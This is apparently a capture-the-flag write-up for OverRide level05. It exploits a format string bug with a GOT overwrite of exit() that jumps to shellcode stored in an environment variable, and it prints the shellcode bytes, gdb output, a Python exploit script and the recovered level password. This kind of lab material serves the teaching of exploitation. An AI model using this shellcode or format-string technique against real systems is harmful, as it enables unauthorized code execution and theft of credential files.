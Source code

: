 Looking at the source code, we have a very simple binary that will print a buffer (in an unsecured manner) that gets filled via a call to fgets. There is a XOR between 32 and each character if they're in uppercase, that will convert them to lowecase. A very simple trick we could do would be very similar to [rainfall level5](https://github.com/SERAC-SGM/rainfall-42/tree/main/level05) :

- We craft a payload that will show the next password, and store it in an env variable
- We change the address of exit in the global offset table (got) by the address of the env variable using a format string attack
- We enjoy the next level (no)

We can simply reuse the python code of rainfall level5, but this time instead of calling a function, we will call the address of the env variable as previously said. Unlike the function though, this address will most likely change each time we edit the variable so we'll have to recalculate the values in our exploit. That means this exploit won't work out of the box.

We crafted a very cute little shellcode in the last level, so we'll update and reuse it here :

    export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"')

Now, we need to find the offset of our format string attack (everything is explained in detail in rainfall levels 3 trough 5) :

    level05@OverRide:~$ ./level05 
    aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
    aaaa 0x64 0xf7fcfac0 0xf7ec3add 0xffffd61f 0xffffd61e (nil) 0xffffffff 0xffffd6a4 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 

We can see we need to edit the 10th %p (--> %10$p).

Next, we need the address of our PAYLOAD variable, and the address of the exit() function in the got.

    (gdb) disas main
    [...]
        0x08048513 <+207>:	call   0x8048370 <exit@plt>
    [...]
    (gdb) disas 0x8048370
    Dump of assembler code for function exit@plt:
    0x08048370 <+0>:	jmp    *0x80497e0
    0x08048376 <+6>:	push   $0x18
    0x0804837b <+11>:	jmp    0x8048330
    End of assembler dump.
    (gdb) x 0x80497e0
    0x80497e0 <exit@got.plt>:	0x08048376

First one, now the PAYLOAD address

    (gdb) break main
    Breakpoint 1 at 0x8048449
    (gdb) r
    Starting program: /home/users/level05/level05 

    Breakpoint 1, 0x08048449 in main ()
    (gdb) x/500s $esp
    [...]
    0xffffdef3:	 "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"
    [...]
    (gdb) x/s 0xffffdefb
    0xffffdefb:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"

Nailed it. Now, like rainfall level5, we slice the payload address in 2 parts : ffff and defb. We just need to play around with the numbers to get the final address right. Once we get the whole address :

    Breakpoint 1, 0x0804850c in main ()
    (gdb) x 0x80497e0
    0x80497e0 <exit@got.plt>:	0xffffdefb

We're good to go. Here is the python code that was used to overflow exit() :

    import struct

    PAYLOAD = 0xffffdefb
    EXIT_PLT = 0x80497e0

    def pad(s):
        return s+"Y"*(100-len(s))

    exploit = ""
    exploit += struct.pack("I",EXIT_PLT)
    exploit += struct.pack("I",EXIT_PLT+2)
    exploit += "aaaa"
    exploit += "%10$57071x"
    exploit += "%10$n"
    exploit += "%8452x"
    exploit += "%11$n"

    print pad(exploit)

Only one thing to remember : The last characters written are 64y for some reason

Now that our exploit is ready, we can simply run the binary :

    level05@OverRide:~$ python payload.py > payload
    level05@OverRide:~$ ./level05 < payload
    [...]
    64yh4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

Once we remove the previously mentioned "64y", we have our password : 

h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
